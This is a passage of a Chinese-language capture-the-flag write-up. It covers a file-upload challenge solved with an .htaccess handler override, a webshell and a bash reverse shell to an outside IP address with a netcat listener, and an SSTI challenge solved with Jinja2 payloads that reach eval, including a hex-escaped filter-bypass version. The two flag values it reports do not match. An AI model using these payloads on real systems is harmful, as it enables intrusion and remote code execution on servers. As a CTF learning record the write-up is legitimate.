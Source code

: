 ![Burp Try 3](https://image.cnily.top/blog/screenshot/give_me_your_photo_3.png?imageMogr2/format/webp)

尝试利用解析绕过。

构造文件 `.htaccess`. 这将会使得 Apache 将 JPG 文件以 PHP 文件的方式解析：

```xml
<!-- .htaccess -->
<ifModule mime_module>
AddHandler php5-script .jpg
</ifModule>
```

上传成功！

再访问 `/upload/webshell.jpg`, 发现已经显示为 php.

我们不妨再上传一个 `bash.png` 内容如下：

```bash
bash -i &> /dev/tcp/47.97.152.130/54188 0>&1
```

然后在主控机上监听端口 `nc -lvp 54188`，在 WebShell 上传 payload 执行该文件拿到 shell.

```url
shell=bash bash.png
```

主控机上已拿到 shell，但根目录下未发现 flag，尝试查看环境变量，执行：

```shell
www-data@out:/$ export -p
```

得到其中一条为：

```shell
declare -x FLAG="flag{157d77e1-0d53-42db-a9d6-2b98e4cacec0}"
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### BabySSTI_Three

使用 pyload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('__import__('os').listdir('/')')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x27\x2f\x27\x29')}}
```
